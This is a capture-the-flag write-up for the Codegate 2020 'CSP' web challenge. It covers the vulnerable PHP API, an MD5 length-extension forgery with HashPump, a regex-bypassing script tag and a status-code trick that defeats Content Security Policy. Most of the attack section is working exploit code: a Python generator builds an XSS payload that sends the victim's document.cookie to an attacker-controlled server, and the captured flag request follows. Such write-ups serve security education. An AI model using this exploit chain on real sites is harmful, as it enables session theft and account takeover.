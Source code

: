 CSP
-----------

**Source:** https://blog.rwx.kr/codegate-ctf-2020-preliminary/#csp

## Description:

I made an simple echo service for my API practice. If you find bug, please tell me!
http://110.10.147.166/

Source code:

```php
<?php
require_once 'config.php';
if(!isset($_GET["q"]) || !isset($_GET["sig"])) {
    die("?");
}
$api_string = base64_decode($_GET["q"]);
$sig = $_GET["sig"];
if(md5($salt.$api_string) !== $sig){
    die("??");
}
//APIs Format : name(b64),p1(b64),p2(b64)|name(b64),p1(b64),p2(b64) ...
$apis = explode("|", $api_string);
foreach($apis as $s) {
    $info = explode(",", $s);
    if(count($info) != 3)
        continue;
    $n = base64_decode($info[0]);
    $p1 = base64_decode($info[1]);
    $p2 = base64_decode($info[2]);
    if ($n === "header") {
        if(strlen($p1) > 10)
            continue;
        if(strpos($p1.$p2, ":") !== false || strpos($p1.$p2, "-") !== false) //Don't trick...
            continue;
        header("$p1: $p2");
    }
    elseif ($n === "cookie") {
        setcookie($p1, $p2);
    }
    elseif ($n === "body") {
        if(preg_match("/<.*>/", $p1))
            continue;
        echo $p1;
        echo "\n<br />\n";
    }
    elseif ($n === "hello") {
        echo "Hello, World!\n";
    }
}
```

If you download the attached file, you can see the above source code. It's code of `api.php` endpoint that the main endpoint of web service.

The goal of the task is to attack admin with XSS end steal his cookie. So, we could sploit XSS attack only on `api.php` page.

To make some action on this page we must send `q` and `sig` parameters that means Query and Signature.

The parameter `q` is the `base64` string from string like `name(b64),p1(b64),p2(b64)|name(b64),p1(b64),p2(b64)...`. 

The value of `sig` is `q` after decoding with `salt` and hashed with `md5`. 

For hashing algorithms, such as md5, there is known vulnerability. `$salt + $value` forms of hash verification is vulnerable to length extension attack.

There is a link on HashPump tool to help you complete the payload: https://github.com/bwall/HashPump

Body part seems to be preventing tag insertion through regular expression validation, but because it is an invalid regular expression, you can bypass it with newline insertion as in following example.

```javascript
<script
>alert(1)</script
>
```

This issue is mitigated by CSP. However, CSP may not work with unusual status codes that we can inject with header injection.
The response status code can be set to `102` to bypass CSP .

Example:
```
<?php
header("Content-Security-Policy: default-src 'self'; script-src 'none';");
header("HTTP/: 102");
?>
<script>alert(1)</script>
```

This is a payload script using the two techniques described above:

```python
from base64 import b64encode
import os
d1 = ['header', 'HTTP/', '102']
d2 = ['body', '<script\n>window.location.href="http://my.dedicated.server/?red="+document.cookie\n</script\n>', '']
d1 = ','.join(b64encode(c.encode()).decode() for c in d1)
d2 = ','.join(b64encode(c.encode()).decode() for c in d2)
merged = '|{}|{}'.format(d1, d2)
[sig, value] = os.popen("hashpump -s '697e91bd03ae11b196e095af93027e56' -d 'MQ==,Mg==,Mw==' -a '{}' -k 12".format(merged)).read().strip().split('\n')
q = b64encode(eval("b'''" + value + "'''")).decode()
print('http://110.10.147.166/api.php?sig={}&q={}'.format(sig, q))
```

You can configure the script to send cookie values ​​to a receivable location, such as a personal server. And then send the generated address to the web through the  site report function.

Result request:
```
GET /?red=FLAG=CODEGATE2020{CSP_m34n5_Content-Success-Policy_n0t_Security} HTTP/1.1
```